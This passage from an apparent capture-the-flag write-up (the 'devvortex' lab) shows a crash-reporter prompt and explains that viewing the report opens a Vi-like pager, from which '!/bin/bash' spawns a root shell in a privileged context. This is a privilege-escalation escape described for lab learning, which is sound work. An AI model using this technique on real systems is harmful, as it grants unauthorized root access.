```bash

Press any key to continue... 

..dpkg-query: no packages found matching xorg
................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.5 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): 
```

By choosing to view the report, a Vi-like editor appeared, and I immediately remembered that by passing the !:command syntax, I could execute code. Since I was running the binary in a privileged context, I could gain root access by executing `!/bin/bash`  
    - ![getting vi like editor](./devvortex/getting_vi_like_editor.jpg)
